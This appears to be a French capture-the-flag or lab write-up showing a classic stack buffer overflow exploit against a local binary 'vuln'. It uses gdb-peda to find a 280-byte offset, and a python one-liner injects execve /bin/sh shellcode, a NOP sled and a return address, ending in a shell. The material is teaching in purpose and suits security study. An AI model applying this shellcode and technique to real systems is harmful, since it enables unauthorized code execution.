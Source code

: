 Nous conseillons à celles et ceux qui ne maîtrisent pas la création de shellcode la lecture de ces quelques diapositives.

L'exploitation est classique :

Nous commençons par rechercher la nombre de bytes à utiliser avant d'atteindre le « saved rip », en utilisant un pattern fourni par peda, puis nous injectons notre shellcode dans le buffer, suivi de 280 - len(shellcode) nopsleds, nous permettant ainsi d'écrire l'adresse du buffer sur l'adresse de retour.
```bash
zweisamkeit@linux [ Polsh ] --> gdb -q ./vuln
[...]
gdb-peda$ pattern create 300
'AAA%[...]gA%6A%'
gdb-peda$ r < <(echo 'AAA%[...]gA%6A%')
[...]
Adresse buffer : 0x7fffffffe620

Program received signal SIGSEGV, Segmentation fault.

 [----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0x7fffffe0 
RDX: 0x7ffff7dd6740 --> 0x0 
RSI: 0x603020 ("Adresse buffer : 0x7fffffffe620\n")
RDI: 0x0 
RBP: 0x3425416525414925 ('%IA%eA%4')
RSP: 0x7fffffffe738 ("A%JA%fA%5A%KA%gA%6A%")
RIP: 0x4005bd (<main+87>:	ret)
R8 : 0x1 
R9 : 0x20 (' ')
R10: 0x78 ('x')
R11: 0x246 
R12: 0x400470 (<_start>:	xor* ebp,ebp)
R13: 0x7fffffffe810 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4005b2 <main+76>:	call   0x400450 <printf@plt>
   0x4005b7 <main+81>:	mov* eax,0x0
   0x4005bc <main+86>:	leave  
=> 0x4005bd <main+87>:	ret* 
   0x4005be:	xchg   ax,ax
   0x4005c0 <__libc_csu_init>:	push   r15
   0x4005c2 <__libc_csu_init+2>:	push   r14
   0x4005c4 <__libc_csu_init+4>:	mov* r15d,edi
[------------------------------------stack-------------------------------------]
[...]
gdb-peda$ pattern search 'A%JA%fA%5A%KA%gA%6A%'
[...]
Registers point to pattern buffer:
[RSP] --> offset 280 - size ~20
[...]
exit
zweisamkeit@linux [ Polsh ] --> ./vuln $(python2.7 -c 'print "\x48\x31\xc9\x48\xf7\xe1\x04\x3b\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x52\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"+"\x90"*252+"\xb0\xe5\xff\xff\xff\x7f"')
Adresse buffer : 0x7fffffffe5b0
sh-4.4$
```
